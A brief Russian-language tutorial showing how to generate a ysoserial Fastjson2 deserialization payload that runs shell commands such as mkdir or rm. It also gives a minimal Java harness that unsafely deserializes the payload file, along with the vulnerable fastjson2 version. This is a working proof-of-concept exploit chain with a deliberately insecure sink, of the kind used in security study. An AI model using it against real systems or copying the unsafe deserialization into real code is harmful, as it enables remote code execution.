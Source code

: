 **Ysoserial Fastjson2**

Для того, чтобы ysoserial заработал с библиотекой fastjson2, необходимо использовать следующий fork:
https://github.com/Y4er/ysoserial/tree/main

Генерируем payload следующей командой:

```
java -jar ysoserial.jar Fastjson2 "mkdir created_dir"> mkdir_v2.bin
```

Данный запрос создат папку create_dir. В качестве аналогов, можно использовать "rm <file_name>" или "firefox" и так далее.

Теперь пишем код, который сериализует объект из файла:

```
package org.example;

import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.ObjectInputStream;
import java.nio.file.Files;

public class Main {
    public static void main(String[] args)  {
        try{
            byte[] data = Files.readAllBytes(new File(args[0]).toPath());
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(data));
        objectInputStream.readObject();
        objectInputStream.close();
    }catch (Exception e){
        e.printStackTrace();
        }
    }
}
```
Нужно не забыть импортировать библиотеку fastjson2 (протестированно для версии <= 20):

```
implementation("com.alibaba.fastjson2:fastjson2:2.0.20")
```

В процессе выполнения, может появится следующая ошибка, но при этом команда исполнится:

![Search Result](/images/image_b.png)
